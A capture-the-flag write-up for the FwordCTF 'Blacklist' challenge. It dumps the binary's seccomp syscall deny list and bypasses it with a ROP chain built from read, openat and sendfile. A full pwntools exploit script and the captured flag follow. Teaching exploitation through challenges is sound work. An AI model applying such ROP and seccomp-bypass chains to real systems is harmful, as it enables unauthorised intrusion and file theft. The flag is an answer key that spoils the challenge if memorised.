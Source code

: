 ## FwordCTF Blacklist Writeup
#### Tags: pwn, seccomp bypass, rop

We are given a statically linked binary:

```shell
$ file ./blacklist
./blacklist: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8231fd8232118e3b92ca37d041e1da3ab1daf4d9, for GNU/Linux 3.2.0, stripped
```

From analzying the binary, we can see it uses seccomp to restrict syscalls, then waits for input:

```shell
$ strace ./blacklist
...
seccomp(SECCOMP_SET_MODE_FILTER, 0, {len=24, filter=0x902350}) = 0
read(0, 
```

We can easily overflow, find the offset and control rip, but due to seccomp, it will be much harder to read the flag.

```shell
$ ./blacklist
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Let's analyze the seccomp profile using [seccomp-tools](https://github.com/david942j/seccomp-tools):

```shell
$ seccomp-tools dump ./blacklist
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x15 0xc000003e  if (A != ARCH_X86_64) goto 0023
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x12 0xffffffff  if (A != 0xffffffff) goto 0023
 0005: 0x15 0x11 0x00 0x00000001  if (A == write) goto 0023
 0006: 0x15 0x10 0x00 0x00000002  if (A == open) goto 0023
 0007: 0x15 0x0f 0x00 0x00000012  if (A == pwrite64) goto 0023
 0008: 0x15 0x0e 0x00 0x00000014  if (A == writev) goto 0023
 0009: 0x15 0x0d 0x00 0x00000038  if (A == clone) goto 0023
 0010: 0x15 0x0c 0x00 0x00000039  if (A == fork) goto 0023
 0011: 0x15 0x0b 0x00 0x0000003a  if (A == vfork) goto 0023
 0012: 0x15 0x0a 0x00 0x0000003b  if (A == execve) goto 0023
 0013: 0x15 0x09 0x00 0x0000003e  if (A == kill) goto 0023
 0014: 0x15 0x08 0x00 0x00000065  if (A == ptrace) goto 0023
 0015: 0x15 0x07 0x00 0x000000c8  if (A == tkill) goto 0023
 0016: 0x15 0x06 0x00 0x00000113  if (A == splice) goto 0023
 0017: 0x15 0x05 0x00 0x00000128  if (A == pwritev) goto 0023
 0018: 0x15 0x04 0x00 0x00000130  if (A == open_by_handle_at) goto 0023
 0019: 0x15 0x03 0x00 0x00000135  if (A == getcpu) goto 0023
 0020: 0x15 0x02 0x00 0x00000142  if (A == execveat) goto 0023
 0021: 0x15 0x01 0x00 0x00000148  if (A == pwritev2) goto 0023
 0022: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0023: 0x06 0x00 0x00 0x00000000  return KILL
 ```
All the syscalls listed above are blocked.
Also attempting to switch to 32 bit mode to use 32 bit syscalls is not allowed.

We need to bypass the seccomp filter and read the flag somehow (it's path is known). After looking at the [amd64 syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can find some useful syscalls that allow us to read the flag:
 * read - to read the path of the flag into a known address
 * openat - to open the flag file and get the fd
 * sendfile - to transfer data between file descriptors (we can transfer to fd 1 stdout)

Now because the binary is statically linked, we will have plenty of rop gadgets to use. I chose to write a rop chain that uses only these syscalls. Another approach is to write custom shellcode, then use mprotect to mark the section of the shellcode as executable, and execute it.

Before I wrote the rop chain, I tested the syscalls in a [c program](blacklist/idea.c) in order to test it easily:
```c
#include <fcntl.h>
#include <sys/sendfile.h>

int main() {
    // read(0, RW_ADDR, 900); // write path of flag to known address
    int fd = openat(0, "/path/to/flag.txt", O_RDONLY); // imagine that RW_ADDR points to the string "/path/to/flag.txt"
    sendfile(1, fd, 0, 0xffff);
    return 0;
}
```

Now the [final exploit](blacklist/solve.py):
```py
from pwn import *

context(arch="amd64")
elf = ELF("./blacklist")

DEBUG = False
REMOTE = True

if DEBUG:
    p = gdb.debug("./blacklist", gdbscript="""
    b *0x4017b6
    continue
    """)
elif REMOTE:
    p = remote("blacklist.fword.wtf",1236)
else:
    p = process(elf.path)

offset = 72

read_n = 0
openat_n = 257 
sendfile_n = 40

pop_rdi_ret = 0x00000000004017b6#: pop rdi; ret;
pop_rsi_ret = 0x00000000004024f6#: pop rsi; ret;
pop_rdx_ret = 0x0000000000401db2#: pop rdx; ret;
pop_rax_ret = 0x0000000000401daf#: pop rax; ret;
pop_r10_ret = 0x0000000000401db1#: pop r10; ret;
syscall_ret = 0x000000000041860c#: syscall; ret;


string_addr = 0x004d1260
path_str = "/home/fbi/aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma.txt\x00"

# first payload to read string from stdin
payload = b""
payload += b"A"*offset 
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 fd
payload += p64(pop_rsi_ret)
payload += p64(string_addr) # arg2 buf
payload += p64(pop_rdx_ret)
payload += p64(300) # arg3 count
payload += p64(pop_rax_ret)
payload += p64(read_n)
payload += p64(syscall_ret) # read

# second payload to open the flag using openat
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 (doesn't matter)
payload += p64(pop_rsi_ret) 
payload += p64(string_addr) # arg2 path
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3
payload += p64(pop_rax_ret)
payload += p64(openat_n)
payload += p64(syscall_ret) # openat

flag_fd = 3 # new fd of the flag will always be 3

# third payload to write flag to stdout using sendfile
payload += p64(pop_rdi_ret)
payload += p64(1) # arg1 dst fd: stdout
payload += p64(pop_rsi_ret)
payload += p64(flag_fd) # arg2 src fd: flag_fd
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3 offset
payload += p64(pop_r10_ret)
payload += p64(0xffff) # arg4 count
payload += p64(pop_rax_ret)
payload += p64(sendfile_n)
payload += p64(syscall_ret) # sendfile

p.sendline(payload)
p.sendline(path_str)
p.interactive()
```

And we get the flag!
**FwordCTF{th3_n4M3_1s_El1Z4be7h_K33n}**

Overall a really fun challenge.
